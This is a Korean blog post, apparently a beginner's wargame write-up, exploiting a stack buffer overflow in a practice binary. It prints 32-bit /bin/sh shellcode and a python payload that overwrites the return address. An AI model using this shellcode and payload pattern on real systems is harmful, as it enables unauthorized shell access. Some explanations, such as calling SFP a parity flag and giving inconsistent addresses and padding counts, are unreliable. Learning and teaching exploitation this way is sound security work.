Buffer OverfloW다. 이번주도 시작해보자. 이거 할려고 윈도우 깔았다. Virtualbox로 변환한 파일이 하도 실행이 안되서 깔았는데 윈도우 깔았는데 진짜 10년만에 윈도우 쓰려니까 너무 어색하다. vs코드 폰트도 어색하고 캡쳐도 더럽게 귀찮고 여튼 짜증이 난다. 근데 어쩌겠냐. 필요한데. vmware fusion 살 돈 없으면 불편하게 살아야지. ㅋㅋㅋ 여튼 잡소리 그만하고 진짜 시작해보자.

우선 연결하고 시작하자. 숙련된 조교는 이미 모두 연결한 모습이다. /sbin/ifconfig 보면 된다는데 구글 검색해보니까 루트 권한 따라길래 그렇게 했다.

</img>

</img>

우선 컴파일부터 하래서 그렇게 했다. 뭘 해야하는지 바로 아는건 거의 불가능해서, 아마 사람들 하는걸 따라가며, 우리가 어떤 행동을 하는지 알아내는 것이 중요할 것 같다. 뭐 다른 영역들은 어느정도 대충 알긴 하지만, 어셈블리어나 시스템 해킹같은 영역들은 아예 처음 건드려 보다 보니까. 어떻게 시작하고 그래야할지 모르겠다. 뭐 어쨌거나 새로운 것을 만났을때 괴리감의 벽을 깨는게 가장 중요하니까. 잡소리 그만하고 넘어가자.

</img>

우선 코드를 좀 확인해보자. strcpy를 사용하는데, 이 명령어는 실행할 때 버퍼에 복사될 변수의 크기를 고려하지 않는다. 따라서 버퍼 오버플로우가 발생할 수 있게 된다. 그리고 리턴값에는 다음으로 실행할 명령이 담기게 되는데, 우리의 목적은 버퍼 오버플로우를 통해 return 값에서 실행할 명령을 변조해 우리가 원하는 권한을 얻어내는 것이다. 이제 이를 조금 더 파보기 위해 gdb를 이용해 프로그램을 뜯어보도록 하자. 정확히 우리는 RET  영역의 오프셋, 시작점을 알기 위해 gdb를 이용하는 것이다.

우리가 입력해야할 쉘코드는 \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
이다. 구글에 검색해보니, 이는 32비트에서 기본적으로 쉘을 띄우는 쉘 코드이고, 총 25바이트라고 한다.
난 진짜 아무것도 모르니까 쉘 코드에 대한 추가적인 설명을 적어본다. 쉘 코드는 시스템에서 특정 명령을 실행하는 작은 사이즈의 프로그램을 뜻한다고 한다. 공격 대상 시스템의 쉘을 실행한다는 의미에서 파생되었다고 한다. 그러하다.

</img>

gremlin을 새로 컴파일한 모습이다. 컴파일 되어있는 파일은 권한 문제가 있을 수 있어 새로 컴파일 해주어야 한다. 뭐 그러하다.

</img>

아키텍처를 인텔로 설정하고 우선 어셈블리 코드를 본 모습이다 버퍼의 크기로 생각하면 %ebp-256에 버퍼가 위치하고 있을 것이라 예상할 수 있다. 
(*EBP - SS 레지스터가 가리키는 스택상의 한 데이터를 가리키는 포인터)

그러면 버퍼(256바이트) / SFP(4바이트) / Return의 구조로 이루어져 있고, Return이 가리키는 값까지 총 260바이트가 주어지게 되는데, 이 260바이트에 쉘코드를 삽입해야하고, ret이 가리키는 주소값에 쉘코드의 데이터값이 담긴 주소를 삽입해야 한다. return값이 가리키는 주소는 261~264번째 바이트라고 할 수 있다
(*SFP = Parity Flag. 연산 결과 최하위 바이트 값이 짝수일 경우 1이 된다. 패리티 체크에 사용.)

우선 이 정보를 통해 core dump 파일을 생성해보자. 260바이트의 의미 없는 데이터를 입력하고, 4바이트에도 임의의 주소값을 넣어보자.
core dump는 컴퓨터 프로그램이 특정 시점에 작업중이던 메모리 상태를 기록한 것인데, 우리가 비정상적인 접근으로 오버플로우가 발생하면, core dump 파일이 발생힐것이다..

</img>

</img>

테스트를 해보니 오버플로우가 발생해 core dump파일이 정상적으로 생성되었음을 알 수 있다. 이를 gdb로 분석해야한다.

</img>

우선 core dump를 컴파일하기 위한 gdb의 옵션은 -c이다. 그리고 그렇게 디버거에 들어가 스택을 열심히 뒤집어 엎어본 모습이다. 여기서 0xbffff910 + 8바이트 지점에서 버퍼가 시작됨을 알 수 있다. 이를 통해 익스플로잇을 구성해보자.

우선 편의를 위해 8바이트의 더미를 넣고, 0xbffff920의 지점에 쉘 코드를 집어넣을 것이다. 이때, return값에 들어갈 주소값은 바이트의 역순으로 넣어야 하므로, 0x209ffffb로 집어넣어야 할 것이다.
그래서 구조를 짜보면 더미 8byte / 쉘 코드 25바이트 / 접근할때까지 더미 227바이트 / ret에 들어갈 주소값 0x20f9ffbf로 이루어진다.
이를 python을 이용해 코드로 작성해보면
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x61" * 234 + "\x18\xf9\xff\xbf"'
이 될것이다.

</img>

테스트를 위해 새로 컴파일한 gremlim에 넣어보았더니 정상적으로 작동한다. bash가 안뺏긴다. 아... 하... 30분간의 픽스잇 과정 끝에 결국 버퍼의 첫 지점에 넣어보니까 bash를 뺏어오는 모습을 볼 수 있었다.

</img>

</img>

그래서 완성한 페이로드는 `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x61" * 235 + "\x18\xf9\xff\xbf"'가 된다.

분명히 첫 문제이고, 그럼 hello world급 문제인데 3시간 걸렸다. 내가 빡대가리가 된 기분이다. 근데 내가 선택한 길이니까, 내 머리를 깨가면서 벽을 넘어서는 방법밖에 없을 듯 하다. 
여튼 오늘따라 어려워서 그런지 잡소리가 많았다. 새벽 3시인데 잠이나 자야겠다.